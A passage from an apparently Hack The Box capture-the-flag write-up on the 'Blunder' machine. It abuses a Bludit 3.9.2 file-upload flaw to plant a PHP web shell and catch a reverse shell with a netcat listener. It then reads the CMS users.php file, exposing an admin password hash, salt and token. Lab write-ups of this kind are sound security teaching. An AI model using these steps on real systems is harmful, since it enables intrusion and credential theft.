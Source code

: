 ```
-----------------------------162541449209088976078955525395--
```
We get an image upload error for file not supported. This is expected, since by an (unsecure) design of the application all the files are uploaded to ```../../tmp``` folder before executing checks on target file.  
In fact, also without using .png extension, if we upload the shell in a .php format, it will be uploaded to ```../../tmp```
```
meterpreter > dir
Listing: /var/www/bludit-3.9.2/bl-content/tmp
=============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  5493  fil   2022-04-19 15:03:53 +0200  sh.php
040755/rwxr-xr-x  4096  dir   2022-04-19 14:42:38 +0200  thumbnails
```
now we can just call ```http://10.10.10.191/bl-content/tmp/sh.php``` or ```http://10.10.10.191/bl-content/tmp/sh.png``` using also the .htaccess file and get a shell.  
```
root@kali:~/Documents/HTB/Boxes/Blunder# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.191] 40866
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 14:04:38 up  7:39,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shaun    :0       :0               06:25   ?xdm?   3:14   0.03s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

## User
As always let's look for credentials into files.  
As discovered before, this is a flat-file CMS so we haven't got a database and all the data is stored inside .php files, so let's look into databse directory for both versions available under the web root:
```
www-data@blunder:/var/www/bludit-3.9.2/bl-content/databases$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{                                                                                                                     
    "admin": {      
        "nickname": "Admin",                
        "firstName": "Administrator",
        "lastName": "",                                 
        "role": "admin",                   
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",    
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",                                                                                               
        "instagram": "",
        "codepen": "",  
        "linkedin": "",
```